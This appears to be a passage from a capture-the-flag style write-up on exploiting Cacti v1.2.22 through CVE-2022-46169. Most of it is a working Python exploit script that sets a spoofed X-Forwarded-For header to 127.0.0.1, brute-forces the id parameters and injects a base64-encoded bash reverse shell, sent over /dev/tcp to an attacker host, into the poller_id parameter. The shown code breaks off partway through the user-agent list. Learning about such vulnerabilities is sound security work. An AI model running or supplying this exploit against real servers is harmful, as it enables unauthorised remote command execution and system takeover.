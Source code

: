 We notice there is a version number under the login screen (v1.2.22), when looking up this version we find out it is vulnerable to remote code execution.

## Exploit

We find a [PoC on Github](https://github.com/m3ssap0/cacti-rce-cve-2022-46169-vulnerable-application/blob/main/exploit/exploit.py) but this needs to be modified, we should put localhost instead of the remote ip in the `X-Forwarded-For` header.

```
#!/usr/bin/env python3

# Exploit Title: Cacti v1.2.22 - Remote Command Execution (RCE)
# Exploit Author: Riadh BOUCHAHOUA
# Discovery Date: 2022-12-08 
# Vendor Homepage: https://www.cacti.net/
# Software Links : https://github.com/Cacti/cacti
# Tested Version: 1.2.2x <= 1.2.22
# CVE: CVE-2022-46169
# Tested on OS: Debian 10/11

import random
import httpx, urllib

class Exploit:
    def __init__(self, url, proxy=None, rs_host="",rs_port=""):
        self.url = url 
        self.session = httpx.Client(headers={"User-Agent": self.random_user_agent()},verify=False,proxies=proxy)
        self.rs_host = rs_host
        self.rs_port = rs_port

    def exploit(self):
        # cacti local ip from the url for the X-Forwarded-For header
        #local_cacti_ip  = self.url.split("//")[1].split("/")[0]
        local_cacti_ip = '127.0.0.1'
        headers = {
            'X-Forwarded-For': f'{local_cacti_ip}'
        }
        
        revshell = f"bash -c 'exec bash -i &>/dev/tcp/{self.rs_host}/{self.rs_port} <&1'"
        import base64
        b64_revshell = base64.b64encode(revshell.encode()).decode()
        payload = f";echo {b64_revshell} | base64 -d | bash -"
        payload = urllib.parse.quote(payload)
        urls = []
        count = 0
        # Adjust the range to fit your needs ( wider the range, longer the script will take to run the more success you will have achieving a reverse shell)
        for host_id in range(1,100):
            for local_data_ids in range(1,100):
                urls.append(f"{self.url}/remote_agent.php?action=polldata&local_data_ids[]={local_data_ids}&host_id={host_id}&poller_id=1{payload}")
                
        for url in urls:
            r = self.session.get(url,headers=headers)
            print(f"{url} - {r.status_code} - {r.text}" )
        pass

    def random_user_agent(self):
        ua_list = [
            "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
           "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
```